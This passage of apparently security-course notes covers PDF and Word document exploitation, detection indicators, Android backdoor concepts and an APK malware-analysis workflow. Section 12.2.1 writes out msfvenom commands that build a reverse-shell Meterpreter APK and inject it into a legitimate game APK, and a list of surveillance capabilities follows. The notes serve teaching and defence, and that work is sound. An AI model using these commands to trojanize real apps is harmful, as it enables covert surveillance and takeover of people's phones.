| **5. File Access** | What configuration and sensitive files does it read or modify? | `lsof -p <PID>`, `strace -e trace=open,openat,read,write` |
| **6. Network Activity** | What network connections and listening sockets are created? | `ss -tulpn`, `netstat -anp`, `strace -e trace=network` |
| **7. Persistence Check** | Does it establish persistence across reboots? | Audit `/etc/cron*`, `/etc/systemd/system/`, `/etc/rc.local`, `~/.bashrc` |
| **8. Execution Context** | Under which user account did the process execute? | `id`, audit log (`/var/log/audit/audit.log`) |

## 10. File-Format & PDF Exploitation

Complex document file formats require sophisticated parsers, creating opportunities for client-side exploitation.



### 10.1 Why Documents Serve as Attack Surfaces
Modern documents are complex multimedia packages containing active content, embedded objects, and procedural scripts:
- **Embedded Objects:** OLE packages, Flash objects, embedded media files.
- **Embedded Scripts:** Embedded JavaScript (AcroJS in PDFs) and Visual Basic for Applications (VBA macros in Office).
- **External References:** Dynamic URI links, external template injections, remote style definitions.
- **Complex Specifications:** The PDF specification spans over 1,000 pages of parsing rules, font format decoders, and compression algorithms, creating a wide attack surface for memory corruption bugs.

### 10.2 PDF Exploitation Mechanics

#### 10.2.1 Vulnerability Classes
- **Parser Memory Corruption:** Heap overflows and use-after-free (UAF) flaws in font engines or image decoders that hijack control registers (EIP/RIP).
- **Embedded JavaScript (`/JS`, `/JavaScript`):** Abusing AcroJS APIs to perform heap spraying, bypass memory protections, or execute shellcode.
- **Embedded Action Triggers (`/OpenAction`, `/AA`):** Directing the reader to execute embedded scripts or download external payloads as soon as the document opens.
- **System Launch Actions (`/Launch`):** Exploiting legacy PDF features to spawn external applications directly from the document.



### 10.3 PDF Security Analysis Framework

Security analysts inspect suspected PDFs using structured static analysis and sandboxing:
- **Object Inspection:** Using tools like `pdfid` and `pdf-parser` to search for suspicious stream tags (`/JavaScript`, `/JS`, `/OpenAction`, `/Launch`, `/EmbeddedFiles`).
- **Stream Extraction:** Decompressing and extracting embedded FlateDecode object streams to examine raw scripts and shellcode.
- **Sandbox Detonation:** Running the PDF in an isolated environment (such as Cuckoo Sandbox) to monitor reader memory, process spawning, and network activity.

## 11. Microsoft Word Document Exploitation

Microsoft Word documents are widely used in phishing campaigns to deliver malicious payloads to enterprise endpoints.



### 11.1 Document Attack Surfaces

#### 11.1.1 Attack Vectors
- **VBA Macros:** Weaponized Visual Basic for Applications scripts embedded in macro-enabled documents (`.docm`, `.doc`).
- **Remote Template Injection:** Pointing document settings (`settings.xml.rels`) to a remote malicious template URL, evading static email attachment filters.
- **Embedded OLE Objects:** Embedding malicious executables or script packages within Word document bodies.
- **Parser Vulnerabilities:** Memory corruption flaws in Word's equation editor (`EQNEDT32.EXE`, e.g., CVE-2017-11882) or RTF parsing engines.

### 11.2 Macro Abuse vs. Software Exploitation

| Comparison Parameter | Macro-Based Attack | Software Exploit |
|---|---|---|
| **Underlying Mechanism** | Abuses **intended document automation functionality** (VBA) | Exploits an **unintended vulnerability** in software code |
| **Vulnerability Class** | Configuration and authorization weakness | Memory corruption, buffer overflow, parser flaw |
| **User Interaction** | Requires the user to explicitly enable content/macros | Can trigger automatically upon document parsing |
| **Application State** | Office operates normally as designed | Application process state is corrupted or hijacked |
| **Payload Delivery** | Uses legitimate APIs (`WScript.Shell`, `CreateObject`) | Injects raw shellcode via memory corruption |

:::important[EXAM TIP: MACRO VS EXPLOIT DISTINCTION]
**Macros abuse intended system functionality, whereas exploits abuse flawed system behavior.** Both achieve code execution, but their execution mechanisms and defensive mitigations differ fundamentally.
:::

### 11.3 Detecting Malicious Documents

Security teams identify document attacks using multi-layered detection rules:
- **Mark of the Web (MOTW):** Verifying whether files downloaded from the internet carry the NTFS Zone.Identifier stream (`ZoneId=3`).
- **Anomalous Process Lineage:** Flagging Office processes (`winword.exe`, `excel.exe`) spawning system interpreters (`powershell.exe`, `cmd.exe`, `wscript.exe`, `cscript.exe`).
- **Suspicious Network Sockets:** Monitoring Office applications that initiate direct outbound network connections to external, uncategorized IP addresses.
- **Macro Static Analysis:** Using tools like `olevba` and `msoffcrypto` to extract and inspect suspicious VBA code patterns (`AutoOpen`, `Shell`, `Environ`).

## 12. Android Backdoor Concepts & Malware Analysis

Mobile endpoints introduce unique client-side attack surfaces through application architectures, granular permissions, and mobile operating system models.



### 12.1 Android Application Architecture

Android applications run inside sandboxed processes and interact through four core application components:
- **Activities:** Visual user interface screens that users interact with.
- **Services:** Background tasks that run continuously without user interaction (ideal for persistent backdoors).
- **Broadcast Receivers:** Components that listen for and respond to system-wide broadcast announcements (e.g., `BOOT_COMPLETED`, network state changes).
- **Content Providers:** Structured data stores that manage access to application and system data (e.g., Contacts, SMS databases).

### 12.2 Android Backdoor Mechanics

#### 12.2.1 Metasploit Android Payloads
Metasploit provides built-in payloads for generating and embedding Android backdoors:
```bash
# Generating a standalone Android Meterpreter APK
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.50 LPORT=4444 -o update.apk

# Embedding Meterpreter into a legitimate APK using template injection
msfvenom -x original_game.apk -p android/meterpreter/reverse_tcp LHOST=192.168.1.50 LPORT=4444 -o backdoored_game.apk
```

#### 12.2.2 Capabilities of an Android Backdoor
Once installed and granted permissions, an in-memory Android Meterpreter session can:
- Collect real-time GPS coordinates (`geolocate`).
- Dump SMS message databases (`dump_sms`) and call logs (`dump_calllog`).
- Stream real-time microphone audio (`record_mic`) and camera feeds (`webcam_stream`).
- Maintain persistence across device reboots by hooking the `BOOT_COMPLETED` broadcast intent.

### 12.3 Android Permissions & the Principle of Least Privilege

```mermaid
flowchart TD
  App["Android Application Request"] --> Perm{"Permissions Declared in AndroidManifest.xml"}
  Perm --> Camera["android.permission.CAMERA"]
  Perm --> Mic["android.permission.RECORD_AUDIO"]
  Perm --> Loc["android.permission.ACCESS_FINE_LOCATION"]
  Perm --> SMS["android.permission.READ_SMS"]
  Perm --> Net["android.permission.INTERNET"]
  Perm --> Boot["android.permission.RECEIVE_BOOT_COMPLETED"]

  Camera --> Audit{"Disproportionate to App Purpose?"}
  Mic --> Audit
  Loc --> Audit
  SMS --> Audit
  Audit -- Yes --> Flag["Flag as High-Risk Suspected Backdoor"]
```

:::tip[DEFENSIVE SECURITY PRINCIPLE]
**Any application requesting permissions disproportionate to its stated function should be investigated.** For example, a basic flashlight utility or calculator requesting `READ_SMS`, `RECORD_AUDIO`, and `RECEIVE_BOOT_COMPLETED` is an immediate indicator of a trojanized application.
:::

### 12.4 Android Malware Analysis Workflow

Security analysts evaluate suspicious APK files using a systematic analysis pipeline:

```mermaid
flowchart TD
  S1["1. File Hashing: Compute SHA-256 and query threat reputation (VirusTotal)"] --> S2["2. Decompilation: Extract APK with apktool / Jadx"]
  S2 --> S3["3. Manifest Audit: Inspect AndroidManifest.xml for excessive permissions & exported components"]
  S3 --> S4["4. Static Code Analysis: Search for hardcoded C2 domains, base64 payloads, and reflection"]
  S4 --> S5["5. Dynamic Detonation: Install APK inside an Android Emulator sandbox"]
  S5 --> S6["6. Network Traffic Monitoring: Capture network flows using Wireshark / Burp Suite"]
  S6 --> S7["7. Behavioral Analysis: Monitor background service execution and API invocations"]
  S7 --> S8["8. Final Verdict: Classify malware family, document IoCs, and generate signatures"]
```

1. **File Hashing:** Calculate cryptographic hashes (SHA-256) and check threat intelligence databases.
2. **Decompilation:** Decompile the package using `apktool` and `jadx-gui` to recover the manifest, smali code, and Java sources.
3. **Manifest Audit:** Inspect `AndroidManifest.xml` for excessive permissions, exported broadcast receivers, and startup intents.
4. **Static Code Analysis:** Search for hardcoded C2 IP addresses, suspicious string decoders, dynamic class loading (`DexClassLoader`), and reflective invocations.
5. **Dynamic Sandbox Detonation:** Run the application inside an isolated Android Virtual Device (AVD) or mobile sandbox.
6. **Network Traffic Monitoring:** Proxy device traffic through Burp Suite or capture raw PCAP flows to detect outbound beaconing.
7. **Behavioral Analysis:** Track background services, battery drain, and unauthorized access to device sensors.
8. **Final Verdict & Documentation:** Document indicators of compromise (IoCs), create YARA detection signatures, and produce remediation guidance.
